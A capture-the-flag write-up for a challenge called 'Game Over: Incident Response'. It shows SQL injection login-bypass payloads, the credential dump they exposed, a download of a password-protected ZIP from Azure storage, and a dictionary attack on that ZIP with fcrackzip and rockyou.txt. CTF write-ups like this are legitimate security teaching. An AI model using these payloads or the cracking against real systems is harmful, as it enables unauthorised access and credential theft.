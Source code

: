 ### Game Over: Incident Response

**Description**  
Anomalies detected. Alarms blaring. You weren’t supposed to be here—but now you are. The system's in lockdown, its defenses booting up fast. Can you trace the breach, decode the chaos, and contain the fallout... before the system pulls the plug? One wrong move, and it’s lights out. Incident Response: Ready? PRESS START. http://game-over-dev.s3-website-us-west-2.amazonaws.com/ Hint 1 (Cost: 0 points) Simple for both? Nothing is ever that simple! Hint 2 (Cost: 0 points) We will...we will...what comes next?

---

#### **Solution Steps:**

I started the challenge by visiting the target site in the browser and saw a login page, which I suspected might be vulnerable to SQL injection based on the challenge hints.

I tested the login form by injecting common SQL payloads in the password field, such as:

```bash
' OR '1'='1
' OR 1=1--
' OR 'a'='a
admin' --
```
![alt text](files/image.png)

![alt text](files/image-1.png)

One of these payloads successfully bypassed the login, returning data from the application. The output revealed several user credentials and a reference to an Azure blob:

```bash
[
  { "id": 1, "username": "gcp", "password": "hello_gcp" },
  { "id": 2, "username": "user1", "password": "password123" },
  { "id": 3, "username": "user2", "password": "letmein" },
  { "id": 4, "username": "azure", "password": "https://gameoverstorage.blob.core.windows.net/gameoverblob/protected_folder.zip" }
]
```

Noticing the URL pointing to a ZIP file in Azure Blob Storage, I downloaded it using ```wget```:

```bash
wget https://gameoverstorage.blob.core.windows.net/gameoverblob/protected_folder.zip
```

I attempted to inspect the ZIP contents without extracting, using:

```bash
unzip -l protected_folder.zip
```
![alt text](files/image-2.png)

This confirmed that the ZIP was password-protected. I tried the obvious passwords from the SQL dump (test, password123 and the full URL) manually, but none worked.

Since the simple guesses failed, I prepared for an automated dictionary attack using ```fcrackzip``` and the ```rockyou.txt``` wordlist:

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt protected_folder.zip
```
![alt text](files/image-3.png)

After a short time, the tool successfully cracked the password. With the correct password, I extracted the ZIP and inspected its contents. Among the files, ```file3.txt``` contained the flag, completing the challenge.
![alt text](files/image-4.png)